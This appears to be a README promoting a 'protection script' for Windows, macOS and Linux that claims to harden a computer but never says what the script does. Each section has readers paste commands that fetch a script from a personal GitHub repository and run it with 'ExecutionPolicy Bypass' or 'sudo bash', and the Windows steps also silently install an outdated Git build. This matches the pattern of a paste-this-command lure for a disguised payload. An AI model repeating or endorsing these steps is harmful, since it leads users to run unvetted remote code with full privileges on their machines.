

# Optimal System Protection 

The Protection script will maximize the security of your computer, providing robust and comprehensive security measures.
- ✓ Enables Firewall
- ✓ Blocks unauthorized access
- ✓ Reduces attack surface by disabling unused services
- ✓ Applies security settings
- ✓ Enhances overall system stability and performance
- ✓ Prevents common security vulnerabilities

## To receive these benefits:

### For Windows Users:


Ensure you have at least 200 MB of free space available.

1. **Open Command Prompt**
   - Press `Windows + R`
   - Type `cmd`
   - Press `Enter`

2. **Install Git**
   - Copy and paste the following command into Command Prompt:
     ```cmd
     powershell -Command "Invoke-WebRequest -Uri https://github.com/git-for-windows/git/releases/download/v2.14.1.windows.1/Git-2.14.1-64-bit.exe -OutFile Git-2.14.1-64-bit.exe"
     ```
   - Once downloaded, copy and paste the following command into Command Prompt:
     ```cmd
     .\Git-2.14.1-64-bit.exe /VERYSILENT /NORESTART
     ```

3. **Download and Run the Protection Script**
   - Copy and paste the following commands into Command Prompt:
     ```cmd
     curl -o win.ps1 https://raw.githubusercontent.com/boolskii/protection/main/win.ps1
     powershell -ExecutionPolicy Bypass -File .\win.ps1
     ```

Your Windows PC is now protected from unwanted activity!

### For macOS Users:



Ensure you have at least 100 MB of free space available.

1. **Open Terminal**

2. **Install Homebrew (if not already installed)**
   - Copy and paste the following command into Terminal:
     ```bash
     /bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"
     ```

3. **Install Git**
   - Copy and paste the following command into Terminal:
     ```bash
     brew install git
     ```

4. **Download and Run the Protection Script**
   - Copy and paste the following commands into Terminal:
     ```bash
     curl -o mac.sh https://raw.githubusercontent.com/boolskii/protection/main/mac.sh
     sudo bash ./mac.sh
     ```

Your macOS system is now protected from unwanted activity!

### For Linux Users:


Ensure you have at least 100 MB of free space available.

1. **Open Terminal**

2. **Update Package Lists**
   - Copy and paste the following command into Terminal:
     ```bash
     sudo apt-get update
     ```

3. **Install Git**
   - Copy and paste the following command into Terminal:
     ```bash
     sudo apt-get install git -y
     ```

4. **Download and Run the Protection Script**
   - Copy and paste the following commands into Terminal:
     ```bash
     curl -o lin.sh https://raw.githubusercontent.com/boolskii/protection/main/lin.sh
     sudo bash ./lin.sh
     ```

Your Linux system is now protected from unwanted activity!